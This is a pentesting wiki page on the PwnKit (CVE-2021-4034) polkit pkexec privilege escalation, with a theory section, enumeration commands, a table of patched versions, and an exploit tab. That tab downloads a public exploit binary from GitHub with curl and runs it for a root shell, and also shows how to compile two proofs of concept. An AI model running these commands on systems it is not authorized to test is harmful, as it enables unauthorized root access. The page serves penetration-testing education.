 ```yaml
---
description: CVE-2021-4034
---
```


# PwnKit

## Theory

CVE-2021-4034 (pwnkit) was discovered by researchers at [Qualys](https://www.qualys.com/). The vulnerability has existed in every version of the "Policy Toolkit" (or, Polkit) package **since it was first released in 2009** and allows any unprivileged attacker to easily obtain full administrative access over any Linux machine with the Polkit package installed. **Polkit is installed by default on most distributions of Linux**, making this vulnerability _extremely_ widespread. The Pwnkit vulnerability exists in the pkexec utility. The pkexec command is used by authorized users to execute commands at elevated privileges (like using sudo).

**Pkexec** attempts to parse any command-line arguments that we pass it using a for-loop, starting at the index 1 to offset the name of the program and obtain the first real argument. The name of the program is irrelevant to argument parsing, so the indexing is simply offset to ignore it. But if we don't provide any arguments, the index is permanently set to 1. This becomes a problem later when pkexec attempts to write to the value of the argument at index n. As there are no command-line arguments, there is no argument at index n — instead the program overwrites the next thing in memory, which just so happens to be the first value in the list of environment variables when the program is called using a C function called execve(). In other words, by passing pkexec a null list of arguments, we can **force it to** **overwrite an environment variable** instead! - [TryHackMe](https://tryhackme.com/room/pwnkit)

## Practice

{% tabs %}
{% tab title="Enumeration" %}
To make the PwnKit exploit working. The SUID bit on the pkexec binary must be set

```bash
$ find / -type f -name *pkexec* -perm -4000 2>/dev/null
/usr/bin/pkexec
```

Check if the policykit package is vulnerable

```bash
#Debian/Ubuntu
apt list --installed | grep -i polkit

#RHEL/CentOs/Fedora
rpm -qa | grep -i polkit

#SUE
zypper search -i polkit

#Oracle Linux
pkginfo | grep -i polkit
```

Here is a summary table of patched versions by OS. Earlier versions are vulnerable

| OS Version                                  | Patched version                     |
| ------------------------------------------- | ----------------------------------- |
| CentOS 7                                    | polkit-0.112-26.el7\_9.1            |
| CentOS 8                                    | polkit-0.115-13.el8\_5.1            |
| Debian 9                                    | policykit-1\_0.105-18+deb9u2        |
| Debian 10                                   | policykit-1\_0.105-25+deb10u1       |
| Debian 11                                   | policykit-1\_0.105-31+deb11u1       |
| Oracle Linux 6                              | polkit-0.96-11.0.1.el6\_10.1        |
| Oracle Linux 7                              | polkit-0.112-26.0.1.el7\_9.1        |
| Oracle Linux 8                              | polkit-0.115-13.0.1.el8\_5.1        |
| SUSE Linux Enterprise Server 12             | polkit-debugsource-0.113-5.24.1     |
| SUSE Linux Enterprise Server 15 LTSS et SP1 | polkit-debugsource-0.116-3.6.1      |
| SUSE Linux Enterprise Server 15 SP2         | polkit-debugsource-0.114-3.15.1     |
| Red Hat 6                                   | polkit-0.96-11.el6\_10.2            |
| Red Hat 7                                   | polkit-0.112-26.el7\_9.1            |
| Red Hat 8                                   | polkit-0.115-13.el8\_5.1            |
| Ubuntu 18.04                                | policykit-1-0.105-20ubuntu0.18.04.6 |
| Ubuntu 20.04                                | policykit-1-0.105-26ubuntu1.2       |
| Ubuntu 21.10                                | policykit-1-0.105-31ubuntu0.1       |
| Fedora 34                                   | polkit-0.117-3.fc34.2               |
| Fedora 35                                   | polkit-0.120-1.fc35.1               |
{% endtab %}

{% tab title="Exploit" %}
We can use [this exploit](https://github.com/ly4k/PwnKit) made by ly4k. It should work out of the box on vulnerable Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.

```bash
#Run the exploit
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x ./PwnKit
./PwnKit        # interactive shell
./PwnKit 'id'   # single command

# Or you may want to compile it by yourself
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```

Alternativly, we can use [this exploit](https://github.com/arthepsy/CVE-2021-4034) made by arthepsy

```bash
gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
./cve-2021-4034-poc
```
{% endtab %}
{% endtabs %}

## Ressource

{% embed url="https://ine.com/blog/exploiting-pwnkit-cve-20214034" %}

{% embed url="https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034" %}

{% embed url="https://tryhackme.com/room/pwnkit" %}

{% embed url="https://cyberwatch.fr/cve/cve-2021-4034/" %}
